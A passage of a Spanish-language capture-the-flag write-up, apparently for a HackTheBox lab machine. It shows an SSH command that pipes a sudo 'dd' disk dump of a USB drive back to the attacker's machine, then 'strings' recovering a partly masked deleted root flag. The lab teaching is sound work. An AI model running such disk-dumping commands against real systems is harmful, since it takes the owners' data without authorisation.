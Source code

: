 Al descubrir que la flag de `root.txt` había sido eliminada, optamos por realizar un volcado forense del dispositivo `/dev/sdb` para analizar su contenido en busca de datos recuperables. Para ello, utilizamos `dd` junto con `gzip` para transferir y comprimir la imagen del disco a nuestra máquina de ataque:

* **ssh pi@10.10.10.48**: Nos conectamos a la máquina objetivo.
* **sudo dd if=/dev/sdb**: Extraemos el contenido de la unidad USB (`/dev/sdb`).
* \| **gzip -1 -**: Comprimimos los datos en tiempo real para agilizar la transferencia.
* **| dd of=usb.gz**: Guardamos la imagen comprimida en nuestra máquina atacante.

```bash
❯ ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
pi@10.10.10.48's password: 
20480+0 records in
20480+0 records out
10485760 bytes (10 MB) copied, 0.121098 s, 86.6 MB/s
93+1 records in
93+1 records out
48103 bytes (48 kB, 47 KiB) copied, 4,93366 s, 9,7 kB/s

❯ ls -l usb.gz
.rw-rw-r-- kali kali 47 KB Fri Feb 14 17:31:35 2025  usb.gz

❯ file usb.gz
usb.gz: gzip compressed data, last modified: Fri Feb 14 16:32:13 2025, max speed, from Unix, original size modulo 2^32 10485760
```

Descomprimiremos la imagen a través del siguiente comando.

```bash
❯ gunzip usb.gz

❯ ls -l
.rw-rw-r-- kali kali  10 MB Fri Feb 14 17:31:35 2025  usb
```

Una vez extraída, analizamos su contenido con `strings`, entre los resultados, encontramos referencias a **root.txt** y una cadena en formato hexadecimal de 32 caracteres, lo que indica que la flag aún estaba en el disco. Este método nos permitió recuperar la flag eliminada sin necesidad de herramientas adicionales.

```bash
❯ strings usb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143f*********************
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
